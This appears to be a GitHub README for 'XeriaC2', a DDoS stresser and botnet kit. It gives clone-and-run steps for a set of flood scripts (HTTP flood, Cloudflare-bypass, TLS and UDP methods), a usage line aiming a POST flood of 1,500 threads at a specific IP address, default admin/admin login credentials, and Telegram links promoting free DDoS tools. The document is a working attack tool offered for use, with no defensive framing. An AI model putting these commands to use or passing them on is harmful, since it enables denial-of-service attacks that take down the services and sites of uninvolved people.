 ## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip
## Tutorial
1. Open Github XeriaC2
2. Open File Methods
3. Click tutorial.txt
4. Open Terminal Or Cloud Shell
5. git clone https://github.com/levanderdev/XeriaC2
6. cd XeriaC2
7. And You See File Methods
8. Node.js Methods Run : node name.js
9. Golang.js Run : go run name.go
10. Python.js Run : python name.py
11. Thankss
12. 

## Telegram/Chat/Bug
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD
Username : admin

Password : admin

## How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

## Wanna Update Method?
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

and scroll you can get the method maybe node HTTP-FLOOD.js 

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

node tlsv2.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
